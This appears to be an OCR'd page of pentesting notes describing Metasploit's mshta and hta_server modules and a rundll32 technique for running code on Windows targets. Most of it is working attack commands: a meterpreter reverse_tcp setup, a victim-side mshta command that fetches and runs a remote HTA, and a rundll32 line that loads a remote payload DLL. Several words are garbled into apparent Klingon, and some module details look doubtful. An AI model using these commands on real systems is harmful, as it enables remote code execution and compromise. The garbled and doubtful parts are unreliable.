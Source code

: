 ##### **Description**

The `mshta` module in Metasploit Framework is used to exploit the Windows `mshta.exe` utility. This utility is responsible for executing HTML applications (HTAs) on Windows systems. By exploiting `mshta.exe`, an attacker can execute arbitrary code on the target system.

##### **Usage**

To use the `mshta` module, follow these steps:

1. Set the `RHOST` option to the IP address of the target system.
2. Set the `PAYLOAD` option to the desired payload.
3. Set the `LHOST` option to the IP address of the attacking machine.
4. Run the exploit using the `exploit` command.

##### **Example**

```
msf5 > use exploit/windows/browser/mshta
msf5 exploit(windows/browser/mshta) > set RHOST 192.168.1.10
msf5 exploit(windows/browser/mshta) > set PAYLOAD windows/meterpreter/reverse_tcp
msf5 exploit(windows/browser/mshta) > set LHOST 192.168.1.20
msf5 exploit(windows/browser/mshta) > exploit
```

##### **References**

- [Metasploit Unleashed - Mshta](https://www.metasploitunleashed.org/)

##### **Author**

- [@harmj0y](https://twitter.com/harmj0y)
```bash
use exploit/windows/misc/hta_server
msf exploit(windows/misc/hta_server) > set srvhost 192.168.1.109
msf exploit(windows/misc/hta_server) > set lhost 192.168.1.109
msf exploit(windows/misc/hta_server) > exploit
```

```bash
Victim> mshta.exe //192.168.1.109:8080/5EEiDSd70ET0k.hta #The file name is given in the output of metasploit
```
**QaH Detected by defender**




## **Rundll32**

[**Dll ghuy'cha' example**](https://github.com/carterjones/hello-world-dll)

* [vaj](https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/)
```bash
rundll32 \\webdavserver\folder\payload.dll,entrypoint
```
